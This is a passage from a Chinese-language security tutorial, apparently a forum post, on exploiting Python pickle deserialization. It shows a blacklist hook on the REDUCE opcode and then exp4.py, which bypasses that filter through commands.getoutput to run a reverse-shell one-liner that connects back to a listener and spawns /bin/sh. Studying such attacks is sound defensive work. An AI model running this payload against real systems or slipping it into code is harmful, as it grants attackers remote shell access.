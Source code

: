 ```
    def \_\_init\_\_(self, value):
        super(FilterException, self).\_\_init\_\_(
            'the callable object {value} is not allowed'.format(value=str(value)))

def \_hook\_call(func):
    def wrapper(*args, **kwargs):
        print args\[0\].stack
        if args\[0\].stack\[-2\] in black\_type\_list:
            raise FilterException(args\[0\].stack\[-2\])
        return func(*args, **kwargs)
    return wrapper

def LOAD(file):
    unpkler = Unpkler(file)
    unpkler.dispatch\[REDUCE\] = \_hook\_call(unpkler.dispatch\[REDUCE\])
    return Unpkler(file).load()

with Open("test","rb") as f:
    LOAD(f)
```
此时如果简单地想通过前一步生成的test来执行系统命令，会报错。

![](https://xianzhi.aliyun.com/forum/media/upload/picture/20180325210703-699fb630-302d-1.jpeg)

考虑其他方法。python中除了os和sys模块有提供命令执行的函数外，还有其他第三方模块，比如commands模块：

![](https://xianzhi.aliyun.com/forum/media/upload/picture/20180325210611-4aa7837a-302d-1.jpeg)

因此改写生成序列化文件的exp4.py如下：
```
import os
from pickle import Unpickler as Unpkler
from pickle import Pickler as Pkler
import commands
class chybeta(object):
    def \_\_reduce\_\_(self):
        return (commands.getoutput,("python -c 'import socket,subprocess,os;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);s.connect((\\"127.0.0.1\\",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(\[\\"/bin/sh\\",\\"-i\\"\]);'",))    
evil = chybeta()

def dump(file):
    pkler = Pkler(file)
    pkler.dump(evil)

with open("test","wb") as f:
    dump(f)
```
同时为了进一步利用，我们尝试反弹shell。过程如下，先运行exp4.py生成新的test序列化文件，接着nc监听本地端口，接着运行exp5.py触发序列化漏洞并完成利用

![](https://xianzhi.aliyun.com/forum/media/upload/picture/20180325210651-62471a68-302d-1.jpeg)
